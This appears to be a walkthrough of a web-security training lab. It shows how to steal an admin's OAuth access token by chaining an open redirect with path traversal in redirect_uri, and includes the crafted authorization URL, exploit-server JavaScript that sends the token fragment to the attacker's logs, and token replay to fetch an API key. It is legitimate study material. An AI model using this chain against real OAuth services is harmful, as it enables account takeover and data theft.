 Title: Stealing OAuth access tokens via an open redirect
Level: PRACTITIONER
Desc:  This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.
To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.
Note: You cannot access the admin's API key by simply logging in to their account on the client application.
The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
You can log in via your own social media account using the following credentials: wiener:peter. 

# Walkthrough:

I' ve found Open Redirection in Comment section for post:
<img width="1602" height="890" alt="image" src="https://github.com/user-attachments/assets/136b12a3-a845-4028-ac29-ac3373b27d34" />
`https://0adc00b4048ce3eb80a0716d009e00f2.web-security-academy.net/post/next?path=/post?postId=3`

It also works like that: `https://0adc00b4048ce3eb80a0716d009e00f2.web-security-academy.net/post/next?path=https://HOSTNAME/`

During authentication client app make call to /me on ouath server:
<img width="1271" height="380" alt="image" src="https://github.com/user-attachments/assets/25b52b41-5a1e-4e1e-acda-8725647b1557" />
<img width="1266" height="442" alt="image" src="https://github.com/user-attachments/assets/030cf186-20ba-4fa9-a3d1-40e699153561" />

I am getting the most recent request for `/auth?client_id=ym7ii3q96xkkr2ywwnrcp&redirect_uri=https://0adc00b4048ce3eb80a0716d009e00f2.web-security-academy.net/oauth-callback&response_type=token&nonce=1259639818&scope=openid%20profile%20email`.
It is possible to inject into redirect_uri characters like that: /../../ (path traversal)

So, we have 2 vulnerabilities:
- path traversal in OpenAPI request
- open redirect in post page
We can combine this 2.

`https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email`

`https://oauth-0ad2006a0452e3cc80d86f9902d100fc.oauth-server.net/auth?client_id=ym7ii3q96xkkr2ywwnrcp&redirect_uri=https://0adc00b4048ce3eb80a0716d009e00f2.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a1300120474e3a18037702b01bc0032.exploit-server.net/exploit&response_type=token&nonce=1259639818&scope=openid%20profile%20email `    
It redirects me to my exploit server and in the same time it give access token in URL.

On the exploit server I place this code:
```
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

Now I can get token from logs of the exploit server.

You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token.
```
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0ad2006a0452e3cc80d86f9902d100fc.oauth-server.net/auth?client_id=ym7ii3q96xkkr2ywwnrcp&redirect_uri=https://0adc00b4048ce3eb80a0716d009e00f2.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a1300120474e3a18037702b01bc0032.exploit-server.net/exploit&response_type=token&nonce=1259639818&scope=openid%20profile%20email'
} else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
Store this on the exploit server.
Deliver to victim, get token from logs: /?access_token=zhO4wa8SXRNiNxyeahZEgqtwrgT6FPLGdOKFjbUz8as&expires_in=3600&token_type=Bearer&scope=o

In Repeater, go to the GET /me request and replace the token in the Authorization: Bearer header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key. 

<img width="1366" height="523" alt="image" src="https://github.com/user-attachments/assets/96d76de1-6a77-4c27-bccb-7faf662d1ef1" />





